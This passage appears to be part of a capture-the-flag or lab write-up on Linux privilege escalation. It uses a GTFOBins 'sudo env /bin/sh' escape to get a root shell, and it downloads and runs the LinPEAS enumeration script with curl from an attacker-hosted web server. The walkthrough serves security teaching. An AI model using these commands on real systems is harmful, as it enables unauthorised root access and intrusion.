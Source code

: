 https://gtfobins.github.io/gtfobins/env/#sudo

I simply execute the following code as sudo to get a shell as root.

```
sudo env /bin/sh
```

My first got to for quick enumeration is [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - Linux local Privilege Escalation Awesome Script.
I host it on my attacking machine using a simple python3 web server with the command below on port 80
```
sudo python3 -m http.server 80
```

I downloaded linpeas using curl as wget was not available. Adjusted the files permissions to execute and then ran it.
```
cd /tmp
curl http://10.11.11.11/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh 
```

I noticed two odd things that indicated that we were in a docker container. The first being a random hostname and the second being the .dockerenv file.
